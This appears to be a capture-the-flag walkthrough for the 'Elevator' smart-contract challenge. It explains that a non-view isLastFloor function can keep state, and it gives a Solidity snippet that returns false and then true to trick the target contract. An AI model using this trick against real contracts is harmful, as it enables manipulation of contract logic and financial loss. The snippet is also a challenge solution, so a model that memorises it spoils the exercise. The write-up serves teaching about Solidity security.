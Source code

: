 # Elevator

The whole hack was possible only because the `isLastFloor(uint)` function was not marked as `view`.

## How to complete

Implement the `Building` interface in a contract and write the `isLastFloor(uint)` function in such a way that it returns `false` the first time and `true` the second time. This can be done very easily using a state variable.

Now, this approach wouldn't have been possible if the `isLastFloor(uint)` was marked as `view`.

An example of such a function:

```Solidity
    function isLastFloor(uint256 _floor) external override returns (bool) {
        if (!switch_) {
            // turn on switch if it's off and return false
            switch_ = true;
            return false;
        }
        return switch_;
    }
```
